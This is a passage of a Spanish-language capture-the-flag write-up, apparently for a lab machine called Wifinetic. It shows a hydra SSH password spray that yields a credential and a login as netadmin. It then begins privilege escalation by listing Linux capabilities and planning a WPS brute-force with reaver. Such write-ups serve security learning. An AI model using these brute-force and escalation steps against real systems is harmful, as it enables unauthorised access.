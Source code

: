 ```bash
hydra -L usuarios -p VeRyUniUqWiFIPasswrd1!  10.10.11.247  ssh
```
{: .nolineno}


```bash
[22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
1 of 1 target successfully completed, 1 valid password found
```
{: .nolineno}

Por lo tanto, se puede ingresar al equipo haciendo uso de esas credenciales.


```bash
ssh netadmin@10.10.11.247
netadmin@10.10.11.247's password: VeRyUniUqWiFIPasswrd1!

Last login: Tue Sep 12 12:46:00 2023 from 10.10.14.23
netadmin@wifinetic:~$
```

## Escalada de Privilegios

Al listar las **capabilities**, se puede ver lo siguiente:

>Las capacidades de **Linux** proporcionan un subconjunto de los **privilegios de root** disponibles a un proceso.
{: .prompt-info}


```bash
getcap -r / 2>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```
{: .nolineno}

En lo anterior, un programa que no es común es **reaver**, así que vamos a investigar para qué sirve.

>Reaver es una herramienta que permite realizar ataques de fuerza bruta contra puntos de acceso que tienen activado el WPS (Wifi Protected Setup)
{: .prompt-info}

Por lo que se puede pensar que es necesario realizar algún ataque a alguna **red** que se encuentre disponible. Para esto, vamos a revisar las **interfaces** de red con las que cuenta el equipo, para ver si tiene múltiples redes.

```bash
ifconfig
```
{: .nolineno}
